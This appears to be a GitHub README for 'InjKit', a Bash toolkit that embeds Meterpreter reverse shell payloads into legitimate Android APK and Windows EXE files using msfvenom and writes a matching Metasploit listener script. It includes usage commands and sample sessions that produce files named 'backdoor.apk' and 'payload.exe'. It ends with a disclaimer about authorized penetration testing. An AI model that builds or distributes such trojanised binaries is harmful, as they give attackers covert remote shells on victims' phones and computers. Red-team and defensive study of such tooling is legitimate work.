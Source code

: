 # InjKit

**Payload Injector Toolkit (APK & EXE)**

InjKit is a lightweight and interactive Bash-based toolkit for injecting **Meterpreter reverse shell payloads** into clean Android **APK** files or Windows **EXE** binaries using `msfvenom`.

It consists of **two scripts**:

- `apk_injector.sh` for injecting payloads into APK files (Android)
- `exe_injector.sh` for injecting payloads into EXE files (Windows)

Both scripts are designed to be simple, interactive, and efficient, and automatically generate a matching **Metasploit listener resource script (`listener.r`)** to help you catch the reverse shell with ease.

---

## 📁 Included Scripts

### 1. `apk_injector.sh` — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Simple interactive interface
- Verifies APK file path before injection
- Detects payload settings (LHOST, LPORT)
- Generates a new APK file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

### 2. `exe_injector.sh` — Windows EXE Injector

Injects a reverse shell payload into a clean Windows EXE file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Interactive prompts for LHOST, LPORT, and EXE path
- Automatically detects EXE architecture (`x86` or `x64`)
- Selects appropriate payload based on architecture
- Generates a new EXE file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

#### 🚀 Example Usage:

```bash
chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

---

🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe

=========================================
✅ Architecture detected: x64
=========================================

[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

After each successful payload injection, a file named listener.r is generated. This file contains the required Metasploit commands to handle the reverse connection.

🔁 How to use it:

msfconsole -r listener.r


---

⚠️ Notes

These tools depend on msfvenom, which is part of the Metasploit Framework.

Ensure Metasploit is installed and that msfvenom is accessible via terminal.

This tool is for educational and authorized penetration testing purposes only.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for learning, red teaming, and ethical hacking.


---















